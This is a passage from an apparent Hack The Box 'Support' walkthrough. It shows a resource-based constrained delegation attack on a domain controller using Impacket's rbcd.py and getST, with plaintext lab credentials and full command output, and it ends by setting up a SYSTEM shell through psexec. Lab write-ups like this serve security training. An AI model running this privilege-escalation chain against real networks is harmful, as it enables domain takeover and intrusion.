 command:```python rbcd.py -f BLACKANON -t DC -dc-ip 10.129.158.5 support\\support:Ironside47pleasure40Watchful``` 

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/support]
└─$ python rbcd.py -f BLACKANON -t DC -dc-ip 10.129.158.5 support\\support:Ironside47pleasure40Watchful
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting Resource Based Constrained Delegation Attack against DC$
[*] Initializing LDAP connection to 10.129.158.5
[*] Using support\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `BLACKANON` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `DC`
[*] Delegation rights modified succesfully!
[*] BLACKANON$ can now impersonate users on DC$ via S4U2Proxy
```
Finally, we can get an impersonated Service Ticket for the target with Impacket’s getST.py script.

command:```impacket-getST -spn cifs/DC.support.htb -impersonate Administrator -dc-ip 10.129.158.5 support/BLACKANON$:password```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/support]
└─$ impacket-getST -spn cifs/DC.support.htb -impersonate Administrator -dc-ip 10.129.158.5 support/BLACKANON$:password
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
We'll update the ```KRB5CCNAME``` environment variable with the path to the Administrator.ccache file, and then run the ```klist``` command to verify that the Service Ticket is loaded.

command:```export KRB5CCNAME=`pwd`/Administrator.ccache```
command:```klist```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/support]
└─$ export KRB5CCNAME=`pwd`/Administrator.ccache
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/support]
└─$ klist 
Ticket cache: FILE:/home/bl4ck4non/Downloads/HTB/support/Administrator.ccache
Default principal: Administrator@support

Valid starting     Expires            Service principal
11/01/23 05:39:51  11/01/23 15:39:50  cifs/DC.support.htb@SUPPORT.HTB
        renew until 11/02/23 05:39:50
```
Now, we'll add the FQDN of the DC to the our ```/etc/hosts``` file and then use impacket-psexec with Kerberos authentication to gain a SYSTEM shell on the target.
